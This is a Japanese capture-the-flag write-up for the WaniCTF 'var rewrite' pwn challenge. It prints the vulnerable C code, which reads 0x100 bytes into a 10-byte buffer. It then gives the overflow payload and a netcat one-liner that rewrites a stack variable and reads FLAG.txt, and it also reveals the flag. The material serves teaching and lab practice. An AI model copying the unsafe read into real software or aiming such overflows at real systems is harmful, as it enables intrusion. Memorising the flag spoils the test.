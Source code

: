 # var rewrite [pwn]

## 問題文

```
nc var.wanictf.org 9002
```
+ stackの仕組みを理解する必要があります。
+ ローカル変数はstackに積まれます。
+ ローカル変数を書き換えて下さい。

### 使用ツール例
+ [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)

### セキュリティ保護
+ *Partial RELocation ReadOnly (RELRO)*
+ *Smash Stack Protection (SSP)無効*
+ No eXecute bit(NX)有効
+ *Position Independent Executable (PIE)無効*


## FLAG
```
FLAG{1ets-1earn-stack-w1th-b0f-var1ab1e-rewr1te}
```
## 解法

脆弱性がある部分は関数vulnの中の下の部分です。

```
    char target[] = "HACKASE";
    char name[10];
    char *p;
    int ret;

    printf("What's your name?: ");
    ret = read(0, name, 0x100);
    name[ret - 1] = 0;

    write(0, str_head, strlen(str_head));
    write(0, name, strlen(name));
    write(0, str_tail, strlen(str_tail));

    if (strncmp(target, "WANI", 4) == 0)
    {
        win();
    }
    else
    {
        printf("target = %s\n", target);
    }
```

サイズが10のnameが0x100バイト書き込めてしまうのでそれを使ってtargetを書き換えます。
そして最初`HAKASE`と書かれていたメモリ領域に`WANI`を書き込むことができればwin関数が実行されます。
例えばnameにAAAAAAAAAAWANIを設定するとtargetがWANIに書き変わります。

```
% (echo "AAAAAAAAAAWANI"; cat) | nc var.wanictf.org 9002
cat FLAG.txt
```


